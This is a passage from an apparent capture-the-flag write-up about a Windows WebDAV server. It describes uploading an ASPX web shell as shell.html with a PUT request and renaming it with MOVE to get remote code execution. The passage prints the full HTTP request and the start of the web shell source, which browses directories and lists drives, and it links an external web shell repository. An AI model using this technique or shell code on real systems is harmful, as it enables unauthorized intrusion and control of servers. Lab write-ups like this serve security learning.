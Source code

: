 The public PUT allows us the to upload html files. Thus the following request allows us to upload html files but not the aspx files. This does us no good unless we can leverage to upload aspx files.

### Note

I had take the shell.aspx file from [here]([https://raw.githubusercontent.com/xl7dev/WebShell/master/Aspx/ASPX%20Shell.aspx](https://raw.githubusercontent.com/xl7dev/WebShell/master/Aspx/ASPX Shell.aspx))

We are trying to upload aspx files not php files to gain **RCE** as this is windows box and server is WebDAV so safe guess is php is not installed on the box and will not be executed by the server.

We see that we have HTTP methods such as MOVE also, so if we could upload a html file and move it file with aspx extension that will solve our problem. So upload the aspx file as shell.html and then move it shell.aspx.

```http
PUT /shell.html HTTP/1.1
Host: 10.10.10.15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Length: 5271

<%-- ASPX Shell by LT <lt@mac.hush.com> (2007) --%>
<%@ Page Language="C#" EnableViewState="false" %>
<%@ Import Namespace="System.Web.UI.WebControls" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>

<%
	string outstr = "";
	
	// get pwd
	string dir = Page.MapPath(".") + "/";
	if (Request.QueryString["fdir"] != null)
		dir = Request.QueryString["fdir"] + "/";
	dir = dir.Replace("\\", "/");
	dir = dir.Replace("//", "/");
	
	// build nav for path literal
	string[] dirparts = dir.Split('/');
	string linkwalk = "";	
	foreach (string curpart in dirparts)
	{
		if (curpart.Length == 0)
			continue;
		linkwalk += curpart + "/";
		outstr += string.Format("<a href='?fdir={0}'>{1}/</a>&nbsp;",
									HttpUtility.UrlEncode(linkwalk),
									HttpUtility.HtmlEncode(curpart));
	}
	lblPath.Text = outstr;
	
	// create drive list
	outstr = "";
	foreach(DriveInfo curdrive in DriveInfo.GetDrives())
	{
		if (!curdrive.IsReady)
```